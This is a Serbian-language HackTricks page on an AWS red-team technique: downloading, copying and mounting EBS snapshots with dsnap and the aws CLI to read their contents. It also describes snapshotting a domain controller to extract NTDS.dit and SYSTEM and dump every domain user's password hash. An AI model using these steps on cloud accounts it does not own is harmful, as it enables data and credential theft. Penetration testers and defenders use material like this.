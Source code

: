 # AWS - Dump snimka EBS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Provera snimka lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Napomena** da `dsnap` neće vam dozvoliti da preuzmete javne snimke. Da biste zaobišli ovo, možete napraviti kopiju snimka u svom ličnom nalogu i preuzeti to:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Za više informacija o ovoj tehnici pogledajte originalno istraživanje na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Ovo možete uraditi sa Pacu korišćenjem modula [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Provera snimka u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga u EC2 VM pod vašom kontrolom** (mora biti u istom regionu kao kopija rezervne kopije):

Korak 1: Kreirajte novi volumen željene veličine i tipa odlaskom na EC2 –> Volumes.

Da biste izvršili ovu radnju, pratite ove komande:

* Kreirajte EBS volumen koji ćete prikačiti na EC2 instancu.
* Proverite da li su EBS volumen i instanca u istoj zoni.

Korak 2: Desnim klikom na kreirani volumen izaberite opciju "attach volume".

Korak 3: Izaberite instancu iz polja za tekst instance.

Da biste izvršili ovu radnju, koristite sledeću komandu:

* Prikvačite EBS volumen.

Korak 4: Prijavite se na EC2 instancu i proverite dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li volumen ima podatke koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz gornje komande pokazuje "/dev/xvdf: data", to znači da je volumen prazan.

Korak 6: Formatirajte volumen u ext4 fajl sistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Imajte na umu da treba koristiti ili ext4 ili xfs.

Korak 7: Kreirajte direktorijum po vašem izboru za montiranje novog ext4 volumena. Na primer, možete koristiti ime "newvolume".

Da biste izvršili ovu radnju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte volumen u direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum u direktorijum "newvolume" i proverite prostor na disku da biste potvrdili montiranje volumena.

Da biste izvršili ovu radnju, koristite sledeće komande:

* Promenite direktorijum u `/newvolume`.
* Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da pokaže slobodan prostor u direktorijumu "newvolume".

To možete uraditi sa Pacu korišćenjem modula `ebs__explore_snapshots`.

## Provera snimka u AWS (korišćenjem cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow kopija

Bilo koji AWS korisnik koji poseduje dozvolu **`EC2:CreateSnapshot`** može ukrasti heševe svih korisnika domena kreiranjem **snapshot-a kontrolera domena**, montiranjem ga na instancu koju kontrolišu i **izvozeći NTDS.dit i SYSTEM** registarski fajl za korišćenje sa Impacket-ovim projektom secretsdump.

Možete koristiti ovaj alat da automatizujete napad: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti jednu od prethodnih tehnika nakon kreiranja snapshot-a.

## Reference

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
